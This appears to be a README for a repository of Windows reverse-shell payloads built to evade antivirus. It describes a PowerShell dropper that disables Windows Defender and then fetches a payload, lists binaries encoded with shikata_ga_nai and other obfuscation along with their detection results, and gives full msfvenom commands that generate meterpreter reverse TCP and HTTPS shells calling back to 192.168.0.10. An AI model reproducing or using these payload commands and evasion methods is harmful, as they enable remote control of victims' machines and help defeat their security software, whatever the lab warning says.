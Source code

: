 # !!DOWNLOAD ONLY IN A CONTROLLED ENVIRONMENT!!

## all payloads here points to host 192.168.0.10:4444

### Warning: Downloading items here will likely trigger alerts with your antivirus programs, do so in a controlled enviroment. Executing files here technically should post no harm since they only connet to a prive IP, again, do so in a controlled enviroment.

`kib_keyboard.ps1` is a powershell script that disables windows defender and notifications, then downloads the actual payload.

### payload descriptions (files denoted with X is detected by windows defender):
1. `kidx86.exe` is a x86 tcp reverse shell writtern in c++ endcoded using shikata_ga_nai, with byte change, scrambled byes, extra dummy bytes and byte order obfuscation. 12/69 hits in [VirusTotal](https://www.virustotal.com/gui/file/f0223b32b6d12ea8414eff31ec673b9438d988532bc6b2623ed1d42215f35803/detection) (when it was first submitted). Able to bypass windows defender.
2. `kidx86_source.cpp` is the source file of the payload.
3. `shell.c` is the raw payload from msfvenom. Generated by ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -e x86/shikata_ga_nai -i 8 -f c > shell.c```
4. `shell.exe` is a generic tcp reverse shell. X
5. `bkbx64.exe` is a x64 tcp reverse shell encoded in a custom c++ payload. X
6. `bkbx86.exe` is a x86 tcp reverse shell encoded in a custom c++ payload. X
7. `bkbpayload.ll` and `bkbpayloadraw.cs` are XOR encoded tcp revershell written in a custom C# payload that uses a powershell file to download and execute in memory. (doesn't work)
8. `test1.exe` is a tcp reverse shell encoded in custom python payload. X 
9. `testing9.exe` is a edited tcp reverse shell created using veil before changing from .bat to .exe. X
10. `c_rtcp.exe` is a tcp reverse shell written in C. X
11. `cs_rtcp.exe` is a tcp reverse shell written in C#. X
12. `go_rtcp.exe` is a tcp reverse shell written in go. X


Generating HTTPS reverse shell ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```

A number of tools and lanaguages was used to the process of trying to bypass windows defender, including: Veil, metasploit windows defender evasion, complining custom payloads, we tried payloads encoded using python, c, c++, c#, ruby, go, java.
